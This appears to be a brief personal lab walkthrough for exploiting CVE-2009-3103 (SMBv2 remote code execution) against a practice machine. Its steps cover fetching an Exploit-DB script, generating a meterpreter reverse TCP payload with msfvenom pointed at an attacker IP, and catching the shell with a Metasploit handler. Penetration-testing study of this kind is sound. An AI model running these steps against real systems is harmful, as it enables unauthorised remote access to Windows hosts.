Method

Method

The main lesson here was that I had to look at the result of the nmap vulns and see what was vulnerable. From there I looked at the CVE details and saw that there was a possibility for rce and googled that. There is a bulletin ms09-050 which uses metasploit. Still need to solve this one without metasploit

1. From the nmap scans, we see it is vulnerable to cve 2009-3103 
2. Google search 'cve-2009-3103 exploit rce' 
3. Click on EDB-ID 40280 https://www.exploit-db.com/exploits/40280 
4. Create a python virtualenv `mkproject --python=/usr/bin/python2.7 cve` 
5. Download EDB-ID 40280 via searchsploit 
6. When running the exploit, we see that it needs smb to be imported 
7. Google "smb.smbconnection install" 
8. This site shows how to install via pip https://pypi.org/project/pysmb/ 
9. Ensure that you're in the virtual environment, then upgrade pip `pip install --upgrade pip` 
10. Install pysmb `pip install pysmb`
11. Notice the original python exploit shows an msfvenom command 
12. Copy the exploit, run the msfvenom command using LHOST=KALI_IP and LPORT=443, and use the msfvenom output to replace the shell variable. Here is the command we ran `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.222 LPORT=443  EXITFUNC=thread -f python` 
13. Open msfconsole, use the multi/handler, set lhost and lport, then run. You should see it say "Started reverse TCP handler on 192.168.222.43"  
14. Then run the python exploit `python exploit.py 192.168.222.43` 
15. You should now see the shell connect and we have rce  